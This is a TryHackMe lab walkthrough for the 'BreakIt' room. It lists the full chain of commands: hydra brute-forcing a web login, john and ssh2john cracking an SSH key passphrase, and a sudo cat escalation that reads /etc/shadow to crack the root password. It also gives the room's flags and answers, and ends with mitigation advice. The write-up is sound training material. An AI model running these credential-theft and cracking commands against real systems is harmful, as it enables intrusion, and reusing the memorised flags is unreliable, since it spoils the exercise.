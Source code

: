 # 🟩 BreakIt – Try Hack Me (THM) Walkthrough Report  

**Prepared by:** Nishanth Antony  
**Date:** August 21, 2025  
**Difficulty:** Easy  
**Category:** Web Exploitation / Privilege Escalation  
**Platform:** TryHackMe (THM)  

---

## 1. Reconnaissance Steps  
**Objective:** Identify active hosts, open ports, services, and vulnerabilities.  
**Commands Used:**  
```bash
ping <target_ip>  
nmap -p- --min-rate=1000 -sV <target_ip> -T4 -v  
gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
```

**Findings:**  
- Host confirmed online via ping.  
- Open ports: SSH (22, OpenSSH 7.6p1), HTTP (80, Apache 2.4.29).  
- Web enumeration revealed `/admin` directory with a login page.  
- HTML comment in `/admin` disclosed username `admin`.  

---

## 2. Exploitation Process  
**Step 1 – Web Enumeration (Port 80)**  
- Used gobuster to find `/admin` directory:
  ```bash
  gobuster dir -u http://<target_ip>/ -w /usr/share/wordlists/dirb/common.txt
  ```  
- `/admin` login page HTML comment revealed username `admin`.  

**Step 2 – Brute-Forcing Admin Credentials**  
- Brute-forced `/admin` login credentials:
  ```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
  ```  
- Result: Password `xavier`.  

**Step 3 – Admin Panel Access**  
- Logged into `/admin` with admin:xavier.  
- Obtained web flag: `THM{brut3_f0rce_is_e4sy}` and an RSA private key file (id_rsa).  

**Step 4 – SSH Key Analysis**  
- Copied id_rsa and converted to hash:
  ```python
  python3 /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
  ```
- Cracked passphrase with john:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
  ```
- Result: Passphrase `rockinroll`.  
- Webpage hinted RSA key belonged to user `john`.  

**Step 5 – SSH Access as John**  
- Logged in via SSH:  
  `ssh -i id_rsa john@<target_ip>` with passphrase `rockinroll`.  
- Found user.txt in /home/john: `THM{a_password_is_not_a_barrier}`.  

**Step 6 – Privilege Escalation**  
- Checked sudo permissions:
```bash
  sudo -l
```
- Found john could run `/bin/cat` as root without a password.  
- Exploited to read /root/root.txt:
```bash
  sudo cat /root/root.txt
```
- Result: Root flag `THM{pr1v1l3g3_3sc4l4t10n}`.  
- Copied /etc/shadow to /tmp/shadow:
```bash
  sudo cat /etc/shadow > /tmp/shadow
```
- Cracked root password from /tmp/shadow:
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ``` 
- Result: Password `football`.  

---

## 3. Proof of Concept (PoC)  
- **Web Brute Force:**
```bash
  hydra -l admin -P /usr/share/wordlists/rockyou.txt <target_ip> http-post-form "/admin/:user=^USER^&pass=^PASS^:Invalid"
```  
  Obtained admin:xavier.  
- **SSH Key Cracking:**
```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
```
  Cracked passphrase rockinroll.  
- **Privilege Escalation:**
```bash
  sudo cat /root/root.txt
```
  Accessed root flag.  
- **Password Hash Cracking:**
  ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
  ```
  Cracked root:football.  

---

## 4. Privilege Escalation  
- Exploited sudo permission allowing john to run `/bin/cat` as root.  
- Read /root/root.txt and /etc/shadow, enabling root password cracking.  

---

## 5. Mitigation Recommendations  
- **Web Server Hardening:**  
  - Remove sensitive information (e.g., username hints) from HTML comments.  
  - Restrict `/admin` access with stronger authentication mechanisms.  
- **Authentication Security:**  
  - Enforce complex passwords for web and SSH accounts.  
  - Use strong, unique passphrases for SSH keys.  
- **Sudo Configuration:**  
  - Limit sudo commands to specific, necessary files.  
  - Avoid allowing powerful commands like `/bin/cat` without restrictions.  
- **File Security:**  
  - Protect sensitive files (e.g., id_rsa, /etc/shadow) with strict permissions (chmod 600).  
  - Avoid storing private keys in accessible web directories.  
- **Patch Management:**  
  - Update Apache and OpenSSH to the latest versions.  
  - Implement monitoring for unauthorized access attempts.  

---

## 6. Lessons Learned  
- **Weak Credentials:** Simple passwords (e.g., xavier) are vulnerable to brute-force attacks.  
- **Information Disclosure:** HTML comments can leak critical information like usernames.  
- **Sudo Misconfiguration:** Overly permissive sudo rules enable easy privilege escalation.  
- **SSH Key Security:** Weak passphrases and accessible private keys risk unauthorized access.  

---

## 7. Skills Practiced  
- Network scanning (`nmap`, `ping`)  
- Web directory enumeration (`gobuster`)  
- Credential brute-forcing (`hydra`)  
- SSH key cracking (`john`, `ssh2john`)  
- Sudo privilege escalation  
- Password hash cracking  
- Secure reporting and mitigation strategies  
